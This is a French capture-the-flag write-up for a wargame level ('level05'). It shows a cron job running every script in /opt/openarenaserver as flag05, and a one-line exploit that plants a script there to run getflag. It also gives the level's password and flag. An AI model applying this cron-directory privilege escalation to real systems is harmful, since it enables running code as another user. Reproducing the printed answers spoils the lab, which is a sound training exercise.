 # level 05

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
ne2searoevaevoem4ov4ar8ap
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

En arrivant on recoit
```
You have new mail in /var/mail/level05
```
Le fichier ressemble à
```sh
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

On remarque que c’est un cron qui exécute openarenaserver  toutes les 2mins.

Le fichier exécute toutes les commandes qui se trouvent dans `opt/openarenaserver` puis le supprime juste après.

L’idée est de créer un fichier qui lance getflag et écris le résultat dans un fichier dans le `/tmp`.

```sh
echo 'getflag > /tmp/wow' > /opt/openarenaserver/wow.sh && sleep 120 && cat /tmp/wow
```
(exemple ici qui créer le fichier, attend 120s puis cat le résultat)


```cmd
su level06
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
viuaaale9huek52boumoomioc
```